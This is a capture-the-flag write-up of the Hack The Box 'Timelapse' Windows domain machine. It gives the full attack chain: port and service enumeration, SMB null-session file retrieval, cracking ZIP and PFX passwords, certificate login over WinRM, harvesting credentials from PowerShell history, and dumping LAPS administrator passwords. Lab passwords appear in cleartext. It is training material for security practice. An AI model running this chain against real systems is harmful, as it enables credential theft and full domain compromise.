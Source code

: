 # Timelapse Machine

## Service Enumeration

To begin with, I start scanning all the ports on the target to obtain an overall picture of the target. For this I use following command ```sudo nmap -Pn -p- --min-rate 1000 -v timelapse.htb```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/9306bd81-6e7e-4e56-90ae-73367c7f810e)

Once the open ports are known, I began the service enumeration process. In order to do this, nmap tool was used and, specifically the following command: ```sudo nmap -sS -sV -O -p53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49673,49674,64088 --min-rate 1000 -oN timelapseServiceVersions timelapse.htb```


![image](https://github.com/0xCOrS/WriteUps/assets/97627828/73645148-c9f9-402c-8983-dd6849c76d04)

### DNS Enumeration
As port 53 is open, I will try to enumerate subdomains and DNS related information.
Using dig tool I try to recover any entry with ```dig any timelapse.htb @10.10.11.152```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/99177a6a-8c9e-4d76-b70b-30eb42be896e)

As it is shown on the picture, a new subdomain appears (dc01.timelapse.htb) which seems to be an Active Directory Domain Controller.

### LDAP Enumeration

Using python console, I will try to manually obtain LDAP useful information as the naming con-text. 

```

$$ server = ldap3.Server('10.10.11.152', get_info = ldap3.ALL, port = 389, use_ssl = False)      
$$ connection = ldap3.Connection(server)      
$$ connection.bind()
>>True                                                                                                                
$$ server.info

```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/6e1c0c7b-8409-474b-8e65-e89b203b63bd)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/80c4b8fa-ed9f-42d5-a697-fabe4bcb6702)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/4f3f8bbe-f81c-497c-a9e9-9d834794aff7)

As intended, naming context was obtained being the default naming context: “DC=timelapse, DC=htb”. However, naming context is not the only piece of information recovered. It was also known the server time (useful for requesting Kerberos Tickets), and the LDAP name of the Domain Controller ```CN=DC01, CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=timelapse,DC=htb```

### SMB Enumeration

“Crackmapexec” tool will allow to check whether there are publicly accessible shares or aren’t. With this goal, command ```crackmapexec smb timelapse.htb -d timelapse.htb -u 'test' -p '' –shares``` will show (if possible) shared folders and which permissions does “test” user have on each one (during the tests it was learnt that null sessions are also available on this machine). 

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/04d93ec4-8611-4213-8038-85448355a15f)

As seen in the previous picture, an interesting share called “Share” has been listed. User test has read access in this share.
Next step is to try and spider the share using as pattern “.” This way, almost every file will be listed. In order to do this command ```crackmapexec smb timelapse.htb -d timelapse.htb -u 'test' -p '' --spider Shares --pattern . ```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/7cf07d0b-9324-4c68-9dba-5fa9a9378ae1)

Interesting files have appeared. In order to retrieve the files and have a better interaction with the target SMB, “smbclient” tool will be used. As null sessions are allowed, command used will be ```smbclient \\\\10.10.11.152\\Shares```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/42827fc6-2e79-4586-ba94-5d052a1ae38c)

To download everything easier recurse mode is activated using “recurse” smb command. After that both folders are downloaded using ```mget <folder-name>” command```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/495fd680-e6dd-4148-89d2-ce7bda681ab8)

Inspecting the recently downloaded files, one of them stands out because of the name “winrm_backup.zip” and because it contains a “.PFX” certificate file. When trying to unzip it, it is learnt that it is password-protected. To break the protection next steps were followed:

1. Extract the hash of the password using ```zip2john winrm*```

2. Export the hash to a file called “hash.txt” (only the string between $pkzip$ and $/pkzip$ as it is the format that hashcat uses).

3. Perform dictionary attack using hashcat with command ```.\hashcat -m 17200 -a 0 hash.txt rockyou.txt```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/283df843-6aa5-4e3d-a4b5-fd4a0b1adc88)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/f049f4ba-3f61-4c7e-b11a-6e897634caae)

As seen in the picture, ZIP password was recovered, and it is “supremelegacy”. After extracting the file inside the ZIP “legacy_dev_auth.pfx” it is known that it is also password-protected.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/a023b07c-f783-44ee-8c24-aa7c2d2e5770)

## Initial Access - Insecure Credentials

**Vulnerability Explanation**: Among the files found on the publicly accessible SMB shares, a password-protected ZIP file was found containing an also password-protected “.PFX” certificate file. Both passwords were found with a dictionary and performing a dictionary attack.

**Vulnerability Fix**: Avoid using easy passwords.

**Severity**: Critical

**Steps to reproduce the attack**: 

1.	Donwload the pfx file password cracking from github “https://github.com/crackpkcs12/crackpkcs12”

2.	Launch the dictionary attack using ```crackpkcs12 -d <dictionary-file> <pfx-file> -t <num-ber-of-threads>```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/f3015451-3172-4e86-9c02-964010ed8af6)

3.	Using the password, extract the private key file and certificate from the pfx file using following two commands:

```

openssl pkcs12 -in ../lega*pfx -out timelapse-legacy.cert.pem -clcerts -nokeys
openssl pkcs12 -in ../lega*pfx -out timelapse-legacy.key.pem -nocerts -nodes
	
```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/9acf8b9a-ea05-424e-8cbd-7c41490d3d2c)

4.	Using the recently obtained files, authenticate using ```evil-winrm -i 10.10.11.152 -c Dev/certs/timelapse-legacy.cert.pem -k Dev/certs/timelapse-legacy.key.pem -u legacyy -S```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/ff8e7ade-cb11-4b00-8cec-f3816151712e)

5.	Grab “C.\Users\Legacyy\Desktop\User.txt”

## Post-Exploitation

Once logged in as “legacyy”, exploring the command line history file ```$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt``` cleartext credentials are found for user “svc_deploy”.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/a49f93a9-19b3-4acf-9056-73e194013120)

Using those credentials ```Svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV```, it is possible to log in as “svc_deploy” through winrm.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/01b7061a-f10a-4b1c-8957-7db0c824152a)

## Privilege Escalation - LAPS_Reader Group

**Vulnerability Explanation**: after logging in as svc_deploy with recently found cleartext creden-tials, it is found that this user is a member of the LAPS_reader group. Members of this group are allowed to access the Local Administrator password from the “ms-mcs-admpwd” attribute of computer’s domain object.

**Vulnerability Fix**: securely store credentials.

**Severity**: Critical

**Steps to reproduce the attack**: after logging in as a “LAPS_reader” group member, using cmdlet ```get-domaincomputer``` from “PowerSploit.ps1” (https://github.com/PowerShellMafia/PowerSploit) extract the ms-mcs-admpwd with the following command ```get-domaincomputer | where-object { $_.’ms-mcs-admpwd’ -ne $null } | select-object ms-mcs-admpwd```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/3711ba51-dd53-4914-8cbb-174751a4f8db)

As shown in the previous picture, credentials are recovered ```Yln0l#3M+,705uQP9g(nSq8+```

After that, login as Administrator and grab the flag.













